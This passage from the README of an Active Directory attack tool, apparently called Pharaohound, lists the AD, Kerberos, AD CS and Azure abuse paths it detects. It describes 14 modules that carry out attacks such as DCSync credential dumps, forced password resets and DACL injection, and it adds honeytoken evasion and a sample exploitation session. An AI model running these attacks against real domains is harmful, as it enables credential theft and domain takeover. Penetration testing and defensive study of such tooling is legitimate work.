### 🔑 Kerberos & Authentication Attacks
*   **Kerberoastable Users**: Identifies SPN-enabled accounts, prioritizing those in high-value groups.
*   **ASREP-Roasting**: Finds accounts with Kerberos pre-authentication disabled.
*   **Advanced Kerberos Evasion**: Detects AS-REP Roasting downgrades and Pass-the-Certificate (PTC) pathways.
*   **Ticket Forging**: Detects Golden/Silver ticket forging capabilities via compromised `krbtgt` or service accounts.

### 🛡 Delegation Abuse
*   **Unconstrained Delegation**: Finds computers where Kerberos ticket harvesting is possible.
*   **Constrained Delegation**: Identifies delegation paths with S4U2Self/S4U2Proxy chains.
*   **gMSA Password Readers**: Detects accounts authorized to read managed passwords of Group Managed Service Accounts.

### 🎫 Active Directory Certificate Services (AD CS)
*   **AD CS Certificate Abuse (ESC1–ESC13)**: Detects all known certificate abuse paths including:
    - ESC1: Enrollee supplies subject with client auth
    - ESC2: Any Purpose EKU wildcard
    - ESC3: Enrollment Agent impersonation
    - ESC4: Write permissions on templates
    - ESC5: Weak PKI container permissions
    - ESC6: `EDITF_ATTRIBUTESUBJECTALTNAME2` flag
    - ESC7: ManageCA/ManageCertificates abuse
    - ESC8: NTLM Relay to HTTP enrollment
    - ESC9: Weak subject mapping rules
    - ESC10: Registry-level certificate mapping
    - ESC11: CA RPC encryption disabled
    - ESC12: YubiHSM plaintext credentials
    - ESC13: Policy OID group mapping

### ☁ Azure & Hybrid Entra ID Abuse
*   **Azure Hybrid Paths**: Azure AD Connect Sync takeover, AppRole/Owner abuse, VM Contributor pivots.
*   **Advanced Azure**: Seamless SSO (AZUREADSSOACC) abuse, Primary Refresh Token extraction, Intune MDM pushes, Cross-Tenant B2B abuse.

### 🏗 Group Policy & Active Directory Structure
*   **Dangerous ACLs**: `GenericAll`, `WriteDacl`, `WriteOwner`, `ForceChangePassword`, and more.
*   **GPO Abuse**: Misconfigured GPOs linked to sensitive OUs.
*   **Self-Add to Group**: Accounts with permissions to add themselves to groups.
*   **Domain Trusts**: External/foreign trust vulnerability paths, Cross-Forest SID History hopping.
*   **Machine Account Quota (MAQ)**: `ms-DS-MachineAccountQuota` for RBCD viability.

### ⚙ Infrastructure, Stealth & Persistence
*   **Infrastructure Abuse**: SCCM/MECM, WSUS, Exchange Trusted Subsystem takeover paths.
*   **GPP & LAPS**: Legacy `cpassword` exposure and Windows LAPS v2 decryption paths.
*   **AD Architecture & Stealth**: Bastion Forest PAM Trusts, WebClient Coercion, DCSync stealth targets.
*   **Advanced Persistence**: Skeleton Key, Malicious SSPs on Domain Controllers.
*   **Honeytoken Filtering**: Detects decoy accounts to prevent triggering defense alerts.
*   **OS Vulnerabilities**: Outdated or vulnerable Windows OS versions.
*   **Password Policy**: Password age, expiry flags, and policy analysis.

---

## ⚔ Auto-Exploitation Modules

Pharaohound v2.0 includes a **modular exploitation engine** with 14 modules that execute real Active Directory attacks directly from the framework shell. Each module maps to a BloodHound edge and provides:

- **Options system** — Configurable parameters with defaults, validation, and choices
- **Prerequisites check** — Verifies dependencies, LDAP connectivity, and required arguments
- **Exploitation** — Performs the actual AD modification via LDAP, DRSUAPI, or CLI tools
- **Rollback** — Reverts changes where possible (group membership, DACL edits, etc.)
- **Structured output** — Consistent `ExploitOutput` with success/failure, data, and artifacts

### Module Reference

| Module | BloodHound Edge | Severity | Attack Vector |
|---|---|---|---|
| **DCSync** | `DCSync` | CRITICAL | Credential dump via AD replication (impacket secretsdump) |
| **GetChanges** | `GetChanges/All` | CRITICAL | Targeted DRSUAPI replication for specific objects |
| **GenericAll** | `GenericAll` | CRITICAL | Multi-technique dispatcher (password reset, RBCD, DCSync, etc.) |
| **GenericWrite** | `GenericWrite` | HIGH | SPN hijack, script path, RBCD, group self-add, description backdoor |
| **WriteOwner** | `WriteOwner` | HIGH | Ownership takeover → DACL modification → full control |
| **WriteDacl** | `WriteDacl` | HIGH | Arbitrary ACE injection (GenericAll, DCSync rights) |
| **Owns** | `Owns` | HIGH | Owner-privilege DACL manipulation |
| **ForceChangePassword** | `ForceChangePassword` | HIGH | LDAP `unicodePwd` or SAMR password reset |
| **AddMembers** | `AddMembers` | HIGH | Inject a principal into a privileged group |
| **AddSelf** | `AddSelf` | HIGH | Self-enrollment into a target group |
| **MemberOf** | `MemberOf` | HIGH | Group membership analysis + group injection |
| **AllExtendedRights** | `AllExtendedRights` | HIGH | Auto-detects target type → password reset, RBCD, gMSA read |
| **ReadGMSAPassword** | `ReadGMSAPassword` | HIGH | Extract gMSA NT hashes from `msDS-ManagedPassword` |
| **Contains** | `Contains` | MEDIUM | OU/container abuse — move objects, create backdoors, GPO analysis |

### Usage from the Framework Shell

```text
  ☥ pharaohound(CORP.LOCAL) ✓> modules
  Available Exploit Modules (14):
    DCSync                  Credential dump via AD replication         CRITICAL
    GenericAll              Multi-technique GenericAll dispatcher      CRITICAL
    ForceChangePassword     Reset a user's password via LDAP/SAMR     HIGH
    AddMembers              Add a principal to a target group          HIGH
    ...

  ☥ pharaohound(CORP.LOCAL) ✓> exploit ForceChangePassword
  [☥] Module: ForceChangePassword
  [☥] Options:
    target_user    (required)   Target user SAM account name
    new_password   (optional)   New password (auto-generated if omitted)
    method         (optional)   'ldap' or 'samr' (default: ldap)
    domain         (optional)   Target domain FQDN
    dc_ip          (optional)   Domain Controller IP

  Set option 'target_user': svc_backup
  [☥] Checking prerequisites...
  [✓] Prerequisites met.
  [☥] Exploiting...
  [✓] Password changed for 'svc_backup'. New password: xK9#mP2!qR7...
```

### Module Architecture

All modules inherit from `ExploitModule` (defined in `pharaohound/modules/base.py`) and implement:

```python
class MyModule(ExploitModule):
    name = "MyModule"
    edge_type = "BloodHoundEdgeName"
    severity = Severity.HIGH

    def _register_options(self):           # Define configurable parameters
    def check_prerequisites(self, **kw):   # Verify environment is ready
    def exploit(self, **kw):               # Execute the attack
    def rollback(self, **kw):              # Revert changes (if possible)
```

The `ModuleRegistry` auto-discovers all modules at runtime via `pkgutil`, enabling drop-in extensibility — add a new `.py` file to `pharaohound/modules/` and it's automatically available.

---

## 🔧 Dependencies

| Package | Required | Purpose |
|---|---|---|
| `ijson>=3.1` | Optional¹ | Streaming JSON parser for large files |
| `rich>=13.0` | Optional¹ | Rich terminal tables and panels |
| `ldap3>=2.9` | Required for `collect` | LDAP client for AD enumeration |
| `dnspython>=2.3` | Optional | Custom DNS server support |
| `impacket>=0.11` | Optional | Kerberos TGT retrieval for smart auth fallback |

¹ Falls back to built-in alternatives if not installed. Included in default `pip install .`.

---

## 📜 License

This project is released under the **MIT License**. See [LICENSE](LICENSE) for details.

## 👤 Author

**Asbawy** — [@Asbawy](https://github.com/Asbawy)
